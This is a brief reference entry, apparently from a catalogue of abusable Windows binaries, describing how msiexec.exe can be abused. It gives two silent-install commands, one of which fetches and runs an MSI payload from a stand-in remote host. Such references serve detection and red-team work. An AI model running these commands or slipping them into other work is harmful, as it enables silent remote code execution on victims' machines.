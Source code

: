 # msiexec.exe
## What is it?
*A Windows Installer tool that can download and execute remote payloads.*

## How to abuse it
- *Executes payload*

## Example Attacks
```
msiexec /quiet /qn /i http://malicious.com/payload.msi

msiexec /i C:\payload.msi /qn
```
